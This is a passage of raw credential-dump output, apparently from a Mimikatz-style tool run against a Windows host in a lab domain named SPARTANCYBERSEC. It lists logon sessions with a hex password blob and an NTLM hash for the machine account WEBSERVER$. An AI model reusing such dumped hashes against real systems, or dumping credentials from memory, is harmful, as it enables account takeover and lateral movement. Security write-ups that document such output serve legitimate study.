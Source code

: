 ```
         * Password : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/6/2023 12:16:17 AM
SID               : S-1-5-17
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 11/6/2023 12:16:14 AM
SID               : S-1-5-19
        msv :
        tspkg :
        wdigest :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        kerberos :
         * Username : (null)
         * Domain   : (null)
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 45216 (00000000:0000b0a0)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/6/2023 12:16:14 AM
SID               : S-1-5-90-0-1
        msv :
         [00000003] Primary
         * Username : WEBSERVER$
         * Domain   : SPARTANCYBERSEC
         * NTLM     : 7d0c4cdc32724b99ef4459147401471a
```